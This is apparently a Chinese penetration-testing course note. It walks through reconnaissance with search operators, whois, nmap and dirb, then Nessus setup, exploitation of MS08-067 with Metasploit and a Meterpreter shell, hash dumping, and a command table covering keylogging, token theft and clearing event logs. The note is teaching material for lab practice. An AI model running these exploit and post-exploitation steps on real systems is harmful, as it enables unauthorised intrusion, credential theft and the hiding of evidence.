




# 9-渗透测试实践

## 信息收集

### 被动信息收集

不与目标服务器做直接的交互、在不被目标系统察觉的情况下，通过搜索引擎、社交媒体等方式对目标外围的信息进行收集

1. 搜索引擎查询

    - `site`指令：只显示来自于某个目标域名的相关搜索结果。
    - `intitle`指令:只有当网页标题包含所搜索的关键字时，它才会出现在搜索结果里。
    - `inurl`指令: 在URL中看是否包含指定的关键字

    可组合使用---比如：`inurl:id= site:nankai.edu.cn`

2. IP查询

    `ping` 域名

3. `whois`信息收集

    直接terminal -- `whois baidu.com`，可以查询到域名及域名注册人的相关信息

4. DNS信息收集

    `host -t ns xxx.com` 查询dns服务器

5. 旁站查询

    旁站:和目标网站处于同一服务器的站点
    
    有些情况下，在对一个网站进行渗透时，发现网站安全性较高，久攻不下，那么我们可以试着从旁站入手，拿到一个旁站webshell看是否有权限跨目录，如果没有，继续提权拿到更高权限之后回头对目标网站进行渗透，可以用下面的方式收集旁站：

    - 直接google
        
        IP:%123.123.123.123 --- 搜索存在于目标ip上的站点

### 主动信息收集

主动收集 -- 与目标系统直接交互，从而得到目标系统相关的一些情报信息

1. 发现主机

    用 nmap 扫描下网络内存在多少台在线主机
    ```
    nmap -sP 192.168.1.* 或 nmap -sP 192.168.1.0/24
    ```
    `-sP`参数含义是使用 ping 探测网络内存活主机，不做端口扫描。 

2. 端口扫描

    `-p`参数可以指定要扫描目标主机的端口范围，如，要扫描目标主机在端口范围1~65535开放了哪些端口：
    ```
    nmap -p1-65535 192.168.1.130
    ```

3. 指纹探测

    指纹探测是 对目标主机的系统版本、服务版本、以及目标站点所用的应用程序版本进行探测，为漏洞发现做铺垫。

    `-O`参数可以对目标主机的系统以及其版本做探测：
    ```
    nmap -O 192.168.1.130
    ```

    使用`NMAP`对系统做扫描时，常用的一个组合是：

    ```
    Nmap -sS -sV - O xxx.xxx.xxx.xxx
    ```

    其中 `-sS`参数的作用是 `SYN`扫描，`-sV`的作用是探测详细的服务版本信息，`-O`是探测系统指纹。

    `nmap`扫描更多操作 --- 可以见文章[Nmap扫描工具的使用](https://braveghz.github.io/2017/03/11/lab3-Nmap%E6%89%AB%E6%8F%8F%E5%B7%A5%E5%85%B7%E7%9A%84%E4%BD%BF%E7%94%A8/)

4. Maltego

    Maltego -- 一个开源取证工具,可以挖掘和收集信息。自学。

5. WEB指纹探测

    探测 WEB 容器的指纹信息方法很多，比如，随意提交一个错误页面，比如`Apache`、`iis`、`nginx`的默认的错误页面都是不同的，而且不同版本的错误页面也是不同的。

    也可以用`Nmap`之类的扫描器对web服务器的版本进行探测，`nmap`的`-sV`参数 --- 探测详细的服务版本信息

6. Web敏感目录扫描

    WEB 目录扫描也就是通过一些保存着敏感路径的字典（如：后台路径、在线编辑器路径、上传路径、备份文件等），对于一次网站渗透来说，对目录进行暴力猜解是前期阶段必不可少的一个步骤。

    dirb 是一款WEB目录扫描工具，集成在kali中，ex `dirb http://cc.nankai.edu.cn`

### webscarab

**webscarab** :web爬行 / 目录爆破 / xss测试等。简单做爬虫演示： 

1. 打开`proxy`选项卡中的`listener`选项卡配置代理端口，IP地址填127.0.0.1，点击`star`t开启代理服务

    

2. 打开浏览器，设置代理服务器为127.0.0.1端口为自己在`webscarab`中设置的端口

    

3. 配置好代理后，在浏览器中访问目标网站，然后打开`webscarab`的`spider`选项卡，选择起始点的请求（目标站点），点击`Fecth Tree`就可以在`messages`选项卡中看到请求信息:

    

    

4. 在spider窗格中双击自己目标站点前的文件夹图标就可以查看爬到的目录以及文件

    


## 扫描


Nessus号称是世界上最流行的漏洞扫描程序，提供完整的电脑漏洞扫描服务，并随时更新其漏洞数据库。Nessus可同时在本机或远端上遥控，进行系统的漏洞分析扫描。

### 安装Nessus工具

为了顺利的使用Nessus工具，则必须要将该工具安装在系统中。Nessus工具不仅可以在电脑上使用，而且还可以在手机上使用。本节将介绍在不同操作系统平台及手机上安装Nessus工具的方法。

1. 获取Nessus安装包

    Nessus的官方下载地址是：http://www.tenable.com/products/nessus/select-your-operating-system

    选择Nessus Home，进行下载

    Home家庭版 / 免费 --- Professional专业版 / 付费
 
2. 获取激活码

    输入以下地址： http://www.nessus.org/products/nessus/nessus-plugins/obtain-an-activation-code

    单击 Nessus Home Free下面的 Register Now---填写信息 -- Register --- 邮箱收到激活码

3. Nessus工具在Kali Linux下安装

    - 从官网上下载安装包。本例中下载的安装包文件名为`Nessus-6.6.2-debian6_i386.deb`
    - 安装命令：`dpkg |I Nessus-6.6.2-debian6_i386.deb`
    - 启动Nessus：`/etc/init.d/nessusd start`
    - 打开浏览器，输入网址：https://127.0.0.1:8834
        
    第一次登陆，会有风险提示，选择“我知道风险”的选项，确认

    手动更新Nessus，即在控制台中，运行命令：`/opt/nessus/sbin/nessuscli update --plugins-only`

    完成更新后，重新启动Nessus，即使用命令：`/etc/init.d/nessusd restart`

### Nessus扫描

----挺简单的，自己试试就好了

## 漏洞利用

xp存在 `MS08-067`的漏洞，用 `msfconsole`中的 `search`命令查找该漏洞的渗透攻击模块：
```s
msf > search MS08-067

Maching Modules
=================

    Name                                    Disclosure Date     Rank       Description
    ·····                                   ···············     ·····      ···········
    exploit/windows/smb/ms08_067_netapi     2008-10-28          great      MS08-067 Microsoft Server Service Relative Path Stack Corrupyion
```

然后用`use`命令选用该模块、并使用`show options`来查看选项：
```s
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show options
·····

```
若 `options`中`RHOST`没有被设置 -- 用 `set`进行设置
```s
msf exploit(ms08_067_netapi) > set RHOST 192.168.32.131
```

利用`exploit`命令进行利用：
```s
msf exploit(ms08_067_netapi) > exploit
```

利用后，可以看到XP系统中出现 -- svchost.exe --应用程序错误 

以上仅仅使用了模块重现了溢出漏洞。

如果使用攻击载荷，则可以对目标系统实施更进一步的攻击，比如植入木马，获取目标主机的控制权等。在使用该模块后，可以使用show payloads指令来查看所有的攻击载荷：
```s
msf exploit(ms08_067_netapi) > show payloads
```

可以看到很多的攻击载荷，常见载荷有：
- `reverse_tcp：path : payload/windows/meterpreter/reverse_tcp`，反向连接shell,使用起来很稳定。需要设置LHOST
- `bind_tcp：path : payload/windows/meterpreter/bind_tcp`，正向连接shell。需要设置RHOST

我们设置该攻击载荷：`set payload windows/meterpreter/bind_tcp` --- `show options` -- 设置RHOST`set RHOST 192.168.32.131`

`show targets`查看可选的目标操作系统类型,选择合适的目标操作系统 --- 设置版本号 `set target 34`

然后就可以 `exploit` 啦 -- 利用成功，进入`meterpreter`

事实上，在利用`exploit`进行漏洞利用前，可以`check`查看目标机是否可攻击， 渗透成功后，会返回`meterpreter shell`


## 后渗透攻击  

### 挖掘用户名和密码

微软Windows系统存储哈希值的方式一般为`LAN Manger`(`LM`)、`NT LAN Manger`(`NTLM`),或`NT LAN Manger v2`(`NTLMv2`)

在LM存储方式中，当用户首次输入密码或更新密码的时候，密码被转换为哈希值。由于哈希长度的限制，将密码分为7个字符一组的哈希值。

以`password123456`为例，哈希值以`passwor`和`d123456`的方式存储，所以攻击者只需要简单地破解7个字符一组的密码，而不是原始的14个字符。而`NTLM`的存储方式跟密码长度无关，密码`password123456`将作为整体转换为哈希值存储。

我们可以通过`Meterpreter`中的`hashdump`模块来提取系统的用户名和密码哈希值。



例如，UID为500的Administrator用户密码的哈希值如下。其中第一个哈希是`LM`哈希值，第二个则是`NTLM`哈希值
```s
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

得到这些 HASH 值之后，可以利用工具对 HASH 值暴力破解，得到明文 or 在一些渗透脚本中，以HASH值作为输入，完成对目标主机的登录。

### 获取控制权

利用`shell`命令可以获得目标主机的控制台，有了控制台，就可以对目标系统进行任意文件操作，也可以执行各类DOS命令。

---

具体的`Meterpreter`命令如下：

|命令|含义|
|:--|:--|
|**核心命令**||
|`?` | 帮助菜单|
|`background` | 将当前会话移动到背景|
|`bgkill` | 杀死一个背景 meterpreter 脚本|
|`bglist` | 提供所有正在运行的后台脚本的列表|
|`bgrun` | 作为一个后台线程运行脚本|
|`channel` | 显示活动频道|
|`close` | 关闭通道|
|`exit` | 终止 meterpreter 会话|
|`help` | 帮助菜单|
|`interact` | 与通道进行交互|
|`irb` | 进入 Ruby 脚本模式|
|`migrate` | 移动到一个指定的 PID 的活动进程|
|`quit` | 终止 meterpreter 会话|
|`read` | 从通道读取数据|
|`run`| 执行以后它选定的 meterpreter 脚本|
|`use` | 加载 meterpreter 的扩展|
|`write` | 将数据写入到一个通道|
|**文件系统命令**||
|`cat` |读取并输出到标准输出文件的内容|
|`cd` |更改目录对受害人|
|`del` |删除文件对受害人|
|`download`|从受害者系统文件下载|
|`edit`|用 vim编辑文件|
|`getlwd` |打印本地目录|
|`getwd` |打印工作目录|
|`lcd` |更改本地目录|
|`lpwd` |打印本地目录|
|`ls` |列出在当前目录中的文件列表|
|`mkdir` |在受害者系统上的创建目录|
|`pwd` |输出工作目录|
|`rm` |删除文件|
|`rmdir` |受害者系统上删除目录|
|`upload`|从攻击者的系统往受害者系统上传文件|
|**网络命令**||
|`ipconfig` |显示网络接口的关键信息，包括 IP 地址等|
|`portfwd` |端口转发|
|`route` |查看或修改受害者路由表|
|**系统命令**||
|`clearav` |清除了受害者的计算机上的事件日志|
|`drop_token` |被盗的令牌|
|`execute`|执行命令|
|`getpid` |获取当前进程 ID (PID)|
|`getprivs` |尽可能获取尽可能多的特权|
|`getuid` |获取作为运行服务器的用户|
|`kill` |终止指定 PID 的进程|
|`ps` |列出正在运行的进程|
|`reboot`|重新启动受害人的计算机|
|`reg` |与受害人的注册表进行交互|
|`rev2self` |在受害者机器上调用 RevertToSelf()|
|`shell` |在受害者计算机上打开一个shell|
|`shutdown`|关闭了受害者的计算机|
|`steal_token` |试图窃取指定的 (PID) 进程的令牌|
|`sysinfo` |获取有关受害者计算机操作系统和名称等的详细信息|
|**用户界面命令**||
|`enumdesktops` |列出所有可访问台式机|
|`getdesktop` |获取当前的 meterpreter 桌面|
|`idletime` |检查长时间以来，受害者系统空闲进程|
|`keyscan_dump` |键盘记录软件的内容转储|
|`keyscan_start` |启动时与如 Word 或浏览器的进程相关联的键盘记录软件|
|`keyscan_stop` |停止键盘记录软件|
|`screenshot`|抓去 meterpreter 桌面的屏幕截图|
|`set_desktop` |更改 meterpreter 桌面|
|`uictl` |启用用户界面组件的一些控件|
|**特权升级命令**||
|`getsystem` |获得系统管理员权限|
|**密码转储命令**||
|`hashdump` |抓去哈希密码 (SAM) 文件中的值|
|**Timestomp 命令**
|`timestomp` |操作修改，访问，并创建一个文件的属性|


